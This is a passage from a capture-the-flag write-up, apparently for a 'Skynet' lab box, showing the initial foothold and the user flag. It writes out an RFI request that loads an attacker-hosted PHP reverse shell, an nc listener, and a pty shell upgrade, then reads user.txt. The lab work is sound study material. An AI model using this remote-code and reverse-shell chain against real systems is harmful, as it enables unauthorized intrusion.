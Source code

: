 I copied the exploit locally:

```bash
searchsploit -m 25971
```

Following the PoC instructions, I hosted a **PentestMonkey PHP reverse shell** generated from [revshells.com](https://www.revshells.com) on my attacking machine:

```console
python -m http.server 8080
```

I also set up a listener:

```
nc -lvnp 1337
```

Then I triggered the **RFI vulnerability**:

```
http://10.10.64.70/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.23.106.242:8080/shell.php

```

Reverse shell caught. To upgrade the shell to an interactive TTY:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Next, I navigated to the home directory for user's flag.

```console
www-data@skynet:/$ cd /home
cd /home
www-data@skynet:/home$ ls
ls
milesdyson
www-data@skynet:/home$ cd milesdyson
cd milesdyson
www-data@skynet:/home/milesdyson$ ls
ls
backups  mail  share  user.txt
www-data@skynet:/home/milesdyson$ cat user.txt
cat user.txt
7ce5c2109a40f958099283600a9ae807
www-data@skynet:/home/milesdyson$ 
```


## Root flag

After gaining an initial foothold on the target machine, it was time to escalate privileges. The box's creator dropped a subtle hint: `"A recursive call."` That told me I’d need to dig deeper, likely through automated tasks or scripts.
